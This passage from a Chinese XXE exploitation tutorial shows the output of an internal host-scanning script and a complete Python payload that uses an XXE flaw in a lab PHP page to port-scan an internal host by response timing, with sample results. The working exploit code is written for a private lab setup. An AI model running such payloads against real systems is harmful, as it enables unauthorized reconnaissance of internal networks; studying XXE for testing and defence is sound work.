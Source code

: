 讲道理，代码运行着还是挺慢的，当时想着用多线程，但是发现用多线程速度相差也不大，所以多线程的代码就不放了，感兴趣的读者可以自己尝试着对代码进行优化，如果遇到什么问题也可以在我的公众号 “TeamsSix” 进行留言。

另外如果读者想要复现的话，记得修改代码中的IP，靶机上的 xee_test.php 和之前Normal XXE利用的内容一致即可。

上面的Payload运行起来就是这个样子：

```
 ~# python3 inhostscan.py
 [+] 192.168.38.1 Successfully Found !!!
 [+] 192.168.38.2 Successfully Found !!!
 [-] 192.168.38.3 Error
 [-] 192.168.38.4 Error
……内容太多，此处省略……
 [-] 192.168.38.128 Error
 [+] 192.168.38.129 Successfully Found !!!
 [-] 192.168.38.130 Error
 [-] 192.168.38.131 Error
 [+] 192.168.38.132 Successfully Found !!!
 [-] 192.168.38.133 Error
 [-] 192.168.38.134 Error
……内容太多，此处省略……
```

如果运行代码的时候报错提示没有安装模块，直接根据报错提示安装对应模块即可。

## 4、HTTP内网主机端口扫描

找到了内网的主机，还需要对其端口进行扫描，原理和上面一致，只不过IP固定，遍历端口，对于端口是否开放可以根据响应时间判断，下面放出Payload。

### Payload

```
import requests
import base64

def XXE(port):
	xml = """<?xml version="1.0" encoding="utf-8"?> """
	xml = xml + "\r\n" + """<!DOCTYPE data SYSTEM "http://192.168.38.129:""" + str(port) + """/" ["""
	xml = xml + "\r\n" + """<!ELEMENT data (#PCDATA)> """
	xml = xml + "\r\n" + """]>"""
	xml = xml + "\r\n" + """<data>7</data>"""
	r = requests.post('http://192.168.38.132/xxe_test.php', data=xml,timeout=5)	#记得修改靶机地址
	print(port,r.elapsed.total_seconds())

if __name__ == '__main__':
	for i in range(1,65535):
		XXE(i)
```

Payload运行起来就是这个样子：

```
~# python portscan.py
1 1.014703
2 1.01378
……内容太多，此处省略……
21 1.039337
22 0.020895
23 1.022882
……内容太多，此处省略……
110 1.033751
111 0.008634
112 1.038774
……内容太多，此处省略……
```
